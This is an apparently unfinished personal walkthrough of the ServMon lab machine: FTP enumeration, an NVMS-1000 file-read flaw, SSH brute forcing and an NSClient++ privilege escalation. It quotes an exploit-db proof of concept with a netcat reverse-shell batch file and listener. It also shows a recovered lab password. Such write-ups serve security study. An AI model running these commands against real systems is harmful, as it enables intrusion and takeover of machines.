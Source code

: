 # 📦 ServMon

First i start with nmap:





<figure><img src="../../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

then i try ftp anonymous and find a folder for 2 users with some txt files in it:

<figure><img src="../../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

Looking at the webserver we can see it's NVMS-1000 and looking for vulnerabilities we see a LFI:

{% embed url="https://www.exploit-db.com/exploits/48311" %}

I did not manage to run the exploit so i did it manually:

<figure><img src="../../../.gitbook/assets/image (231).png" alt=""><figcaption></figcaption></figure>

and since i know there are passwords in nathan's Desktop i can go and request those:

<figure><img src="../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

I can then look how to bruteforce SSH with the 2 users we're aware about:

and i find nadine's password:&#x20;

<figure><img src="../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>



After looking in Program FIles we find NSclient++ is installed and while looking on internet we find this that suits our situation:

{% embed url="https://www.exploit-db.com/exploits/46802" %}

```
Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
	C:\Program Files\NSClient++>nscp web -- password --display
	Current password: SoSecret

2. Login and enable following modules including enable at startup and save configuration
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
	@echo off
	c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
	nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
	- foobar
		command = c:\temp\evil.bat

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
	- foobar
		interval = 1m
		command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
	nc -nlvvp 443
	listening on [any] 443 ...
	connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
	Microsoft Windows [Version 10.0.17134.753]
	(c) 2018 Microsoft Corporation. All rights reserved.

	C:\Program Files\NSClient++>whoami
	whoami
	nt authority\system
```

So i start off by catching the admin password:

<figure><img src="../../../.gitbook/assets/image (235).png" alt=""><figcaption><p>ew2x6SsGTxjRwXOT</p></figcaption></figure>

Will come back later
